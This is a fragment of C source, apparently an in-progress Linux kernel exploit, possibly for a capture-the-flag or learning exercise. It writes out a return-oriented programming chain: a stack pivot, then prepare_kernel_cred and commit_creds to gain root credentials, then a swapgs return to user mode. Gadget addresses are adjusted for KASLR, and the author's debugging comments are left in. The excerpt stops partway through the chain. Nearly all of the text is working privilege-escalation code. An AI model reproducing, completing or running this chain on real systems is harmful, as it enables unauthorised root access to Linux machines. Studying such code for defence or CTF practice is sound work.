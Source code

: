 ```c
    // 0xffffffff8106df19: mov rsp, qword ptr [rsp + 0x20]; pop rbx; pop rbp; ret;
    memset(updatedkey, 0, sizeof(updatedkey));
    other_arg.id = 1;
    other_arg.key.ptr = updatedkey;
    other_arg.data.ptr = databuf;

    // third need to be placed ROP stuff in key
    // POC: try printk as an example
    // 0xffffffff81001614: pop rdi; ret;
    unsigned long PIVOT_GADGET = 0xffffffff8106df19ul + kaslroffset;
    unsigned long POP_RDI_GADGET = 0xffffffff81001614ul + kaslroffset;
    unsigned long RBX = 0;
    unsigned long RBP = 0;

    unsigned long RDI_PRINTK_ARG = obj->datapack.ptr;
    // ffffffff81c5e83f T _printk
    // why my printk is a lot of mess
    unsigned long PRINTK = 0xffffffff81c5e83ful + kaslroffset;
    // ffffffff8109bf90 T prepare_kernel_cred
    unsigned long PREPARE_KERNEL_CRED = 0xffffffff8109bf90ul + kaslroffset;
    // ffffffff8109bcf0 T commit_creds
    unsigned long COMMIT_CREDS = 0xffffffff8109bcf0ul + kaslroffset;
    // 0xffffffff8126a99e <mark_buffer_dirty+254>:	test   edi,esi
    // this possibly can change the flag
    unsigned long TEST_ESI_EDI = 0xffffffff8126a99eul + kaslroffset;
    // 0xffffffff8162fc5b: mov rdi, rax; jne 0x630c33; mov eax, ebx; pop rbx; pop rbp; ret
    // can we use this one (without jump) need to debug
    unsigned long MOV_RDI_RAX = 0xffffffff8162fc5bul + kaslroffset;

    // the pivot gadget will pop rbx and rbp,
    memcpy(updatedkey + 450 + 14 + 40, &PIVOT_GADGET, 8);
    memcpy(updatedkey + 450 + 14 + 48, &RBX, 8);
    memcpy(updatedkey + 450 + 14 + 48 + 8, &RBP, 8);
    // prepare 0 to RDI
    memcpy(updatedkey + 450 + 14 + 48 + 16, &POP_RDI_GADGET, 8);
    memset(updatedkey + 450 + 14 + 48 + 24, 0, 8);
    // return to prepare_kernel_creds
    memcpy(updatedkey + 450 + 14 + 48 + 32, &PREPARE_KERNEL_CRED, 8);
    // now the rax is the argument, move it to tdi
    memcpy(updatedkey + 450 + 14 + 48 + 40, &TEST_ESI_EDI, 8);
    memcpy(updatedkey + 450 + 14 + 48 + 48, &MOV_RDI_RAX, 8);
    // two additional POP here
    memcpy(updatedkey + 450 + 14 + 48 + 56, &RBX, 8);
    memcpy(updatedkey + 450 + 14 + 48 + 64, &RBP, 8);
    // return to commit_creds
    memcpy(updatedkey + 450 + 14 + 48 + 72, &COMMIT_CREDS, 8);

    // !!! TODO: we have to take care of the stack recover and ret2usr
    // learn about the kernel stack mechanism
    // ffffffff81e00e10 T swapgs_restore_regs_and_return_to_usermode
    // 0xffffffff81e00e10 <common_interrupt_return>:	pop    r15

    unsigned long swapgs_restore_movq = 0xffffffff81e00e26ul + kaslroffset;
    // to swapgs_restore_regs_and_return_to_usermode
    memcpy(updatedkey + 450 + 14 + 48 + 80, &swapgs_restore_movq, 8);
    // fake returning stack
    unsigned long retRAX = 0;
    unsigned long retRDI = 0;
    // reverse
    memcpy(updatedkey + 450 + 14 + 48 + 88, &retRAX, 8);
    memcpy(updatedkey + 450 + 14 + 48 + 96, &retRDI, 8);
    memcpy(updatedkey + 450 + 14 + 48 + 104, &user_rip, 8);
    memcpy(updatedkey + 450 + 14 + 48 + 112, &user_cs, 8);
```